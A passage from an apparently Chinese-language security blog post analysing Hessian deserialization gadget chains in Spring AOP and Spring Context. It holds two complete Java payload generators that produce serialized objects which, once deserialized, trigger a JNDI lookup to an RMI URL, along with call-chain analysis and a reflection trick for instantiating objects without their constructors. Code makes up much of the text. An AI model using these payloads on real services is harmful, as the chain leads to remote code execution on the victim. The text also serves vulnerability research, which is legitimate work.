    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.6.10</version>
</dependency>
```

## 漏洞复现

```
package Unser.Hessians.SpringAop;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import org.springframework.aop.Pointcut;
import org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor;
import org.springframework.aop.support.DefaultPointcutAdvisor;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Payload {
    public static void main(String[] args) throws Exception{
        String name = "rmi://127.0.0.1:1099/exp";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.addShareableResource(name);
        AbstractBeanFactoryPointcutAdvisor abstractPointcutAdvisor = new AbstractBeanFactoryPointcutAdvisor() {
            @Override
            public Pointcut getPointcut() {
                return null;
            }
        };
        abstractPointcutAdvisor.setBeanFactory(simpleJndiBeanFactory);
        abstractPointcutAdvisor.setAdviceBeanName(name);
        DefaultPointcutAdvisor defaultPointcutAdvisor = new DefaultPointcutAdvisor();
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",defaultPointcutAdvisor);
        map1.put("bB",abstractPointcutAdvisor);
        map2.put("aa",abstractPointcutAdvisor);
        map2.put("bB",defaultPointcutAdvisor);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

//        Base64.Encoder encoder = Base64.getEncoder();
//        String base = encoder.encodeToString(byteArrayOutputStream.toByteArray());
//        System.out.println(base);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }
}
```

## 漏洞分析

这次入口是org.springframework.aop.support的AbstractPointcutAdvisor类



会判断传入的Object的接口，如果说这个类的话就返回true，但是如果没有实现PointcutAdvisor就返回false，所以我们可以找到一个除AbstractPointcutAdvisor类的PointcutAdvisor的子类，然后来到else逻辑了里面调用了this.getAdvice方法，这个类没有这个方法，所以其子类的getAdvice方法

来关注到AbstractBeanFactoryPointcutAdvisor类



首先判断advice是否为空，为空的话进到else逻辑，会判断adviceBeanName和beanFactory两个参数是否为空，当然会，然后我们这里的if判断因为还不确定是哪一个类，我们来关注到`org.springframework.jndi.support#SimpleJndiBeanFactory`的getBean方法



这里的三目运算符的判断和上面那个if一样的，说明我们要进入这个getBean话，就会调用doGetSingleton方法



跟进这里的lookup



继续跟进





这里根据传进来的name调用了InitialContext的lookup方法

# Spring AOP & Context

## 漏洞复现

```
package Unser.Hessians.SpringContextAop;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.aspectj.lang.annotation.Aspect;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.misc.ASCIICaseInsensitiveComparator;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;

public class Payload {
    public static <T> T createWithoutConstructor(Class clazz)  throws Exception{
       Constructor constructor = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz,Object.class.getDeclaredConstructor());
       constructor.setAccessible(true);
       return (T) constructor.newInstance();
    }
    public static void main(String[] args) throws Exception{
        String name = "rmi://127.0.0.1:1099/exp";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        BeanFactoryAspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(beanFactoryAspectInstanceFactory,"beanFactory",simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory,"name",name);
        AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
        Method aspectJAdviceMethod = Class.forName("java.lang.Object").getDeclaredMethod("toString");
        AbstractAspectJAdvice abstractAspectJAdvice = new AbstractAspectJAdvice(aspectJAdviceMethod,aspectJExpressionPointcut,beanFactoryAspectInstanceFactory) {
            @Override
            public boolean isBeforeAdvice() {
                return false;
            }

            @Override
            public boolean isAfterAdvice() {
                return false;
            }
        };

        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor,"advice",abstractAspectJAdvice);
        Class clazz = Class.forName("org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder");
        ASCIICaseInsensitiveComparator asciiCaseInsensitiveComparator = new ASCIICaseInsensitiveComparator();
        Constructor[] constructors = clazz.getDeclaredConstructors();
        constructors[0].setAccessible(true);
        Object objects = constructors[0].newInstance(aspectJPointcutAdvisor,asciiCaseInsensitiveComparator);

        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",objects);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",objects);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream1.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }

    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

## 漏洞分析

这次的入口在`org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder的toString`方法



当advisor实现了Ordered接口的时候（当然前提是要实现Advisor接口），这里就需要实现两个接口，然后会调用到advisor的getOrder方法



这里就需要去找到一个类同时实现了 Advisor 和 Ordered 接口，找到的是AspectJPointcutAdvisor类



调用advice的getOrder方法，也就是AbstractAspectJAdvice类的getOrder方法




调用AspectInstanceFactory的getOrder方法



调用beanFactory的getType方法











一路跟过来就看到调用了Context的lookup方法了


## 遇到的问题

在序列化的时候，实例化BeanFactoryAspectInstanceFactory这个类的时候在最后一行会去实例化AspectMetadata





在一些不满足的情况下会抛出异常报错

同理AspectJPointcutAdvisor这个类也是

解决办法就是用reflectionFactory.newConstructorForSerialization 会生成一个类的 Constructor ，但是其不需要构造参数就可以获取，所以其可以做到不调用默认构造参数就可以实例化对象。

```
public static <T> T createWithoutConstructor(Class clazz)  throws Exception{
   Constructor constructor = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz,Object.class.getDeclaredConstructor());
   constructor.setAccessible(true);
   return (T) constructor.newInstance();
}
```

然后再通过反射去修改其中我们需要的值

# 写在最后

看了很多文章，其实还有其他的链可以利用，比如说Groovy，还有其他一些其他调用hashCode作为入口点的链子


参考链接：

https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86/

https://tttang.com/archive/1701/#toc_signedobject

https://zhuanlan.zhihu.com/p/158978955

https://su18.org/post/hessian/#groovy

https://www.freebuf.com/vuls/343591.html
